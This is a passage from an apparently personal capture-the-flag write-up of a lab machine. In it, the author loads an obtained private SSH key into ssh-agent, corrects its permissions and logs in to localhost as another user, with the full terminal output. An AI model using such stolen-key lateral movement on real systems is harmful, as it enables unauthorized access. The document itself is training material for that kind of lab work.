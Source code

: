 This sent me down quite a rabbit hole trying to figure out why that operation was not permitted. I read all about Linux PAM, but that might have been how the box was made. I also totally forgot about the SSH key and was still in that shitty shell, nano wasn't working so anything I tried from [GTFOBins](https://gtfobins.github.io/) wasn't working. Time to re-think what I was doing. None of the passwords were working with `joanna` which made me think about how I usually don't even use passwords when I use a key for authentication. I ended up going back to my good shell as `jimmy` and privesc from there:

```console
jimmy@openadmin:~$ ssh-agent /bin/sh
$ ssh-add id_rsa
@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
@         WARNING: UNPROTECTED PRIVATE KEY FILE!          @
@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
Permissions 0664 for 'id_rsa' are too open.
It is required that your private key files are NOT accessible by others.
This private key will be ignored.
$ 
jimmy@openadmin:~$ chmod 600 id_rsa 
jimmy@openadmin:~$ ssh-agent /bin/sh
$ ssh-add id_rsa
Enter passphrase for id_rsa: 
Identity added: id_rsa (id_rsa)
$ ssh joanna@localhost
The authenticity of host 'localhost (127.0.0.1)' can't be established.
ECDSA key fingerprint is SHA256:loIRDdkV6Zb9r8OMF3jSDMW3MnV5lHgn4wIRq+vmBJY.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added 'localhost' (ECDSA) to the list of known hosts.
Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 4.15.0-70-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.comhttps://gtfobins.github.io/
 * Support:        https://ubuntu.com/advantage

  System information as of Tue Jan 14 00:43:01 UTC 2020

  System load:  0.0               Processes:             124
  Usage of /:   49.0% of 7.81GB   Users logged in:       1
  Memory usage: 18%               IP address for ens160: 10.10.10.171
  Swap usage:   0%


 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

41 packages can be updated.
12 updates are security updates.

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Thu Jan  2 21:12:40 2020 from 10.10.14.3
joanna@openadmin:~$ 
```
